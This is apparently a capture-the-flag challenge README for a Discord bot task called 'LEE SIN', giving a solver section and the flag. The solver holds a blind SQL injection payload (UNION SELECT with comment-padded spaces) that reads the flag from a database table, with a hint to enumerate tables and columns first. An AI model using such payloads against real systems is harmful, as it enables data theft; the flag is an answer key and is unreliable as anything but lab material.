 # LEE SIN

Author: xhalyl

## Description

Join the discord server , and meet LEE SIN 🥷

## Requirements
- No Requirements

## Sources
  (Private Sources)
- [challenge](./challenge/bot.py)

## Solver
```Blind sqli : 
'UNION/**/SELECT/**/1,flag,3/**/FROM/**/flags/**/WHERE/**/flag/**/like/**/"Secruinets{%"
You should extract the table name and column name first (using the same technique)
```

## Flag
- Securinets{i_see_all}